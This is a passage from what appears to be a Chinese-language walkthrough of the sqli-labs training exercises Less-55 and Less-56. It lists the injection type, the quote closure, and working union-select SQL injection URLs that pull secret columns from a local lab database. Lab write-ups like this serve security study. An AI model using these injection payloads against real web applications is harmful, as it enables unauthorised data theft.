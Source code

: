 ```bash
http://192.168.80.132/sqli-labs/Less-55/?id=-1)  
union select 1,(select group_concat(secret_3ZNN) from hldw3868xt ),3 --+
```

![](file/image_kvljM-4AyP.png)

### Less-56：GET - challenge - Union- l 4 queries allowed - variation 3

**注入类型**

联合注入

**闭合方式**

id=('\$id')

```sql
http://192.168.80.132/sqli-labs/Less-56/?id=-1') 
union select 1,(select group_concat(secret_97J5) from 1x10v2xxfh),3 --+
```

![](file/image_e7Pjfuwtr2.png)
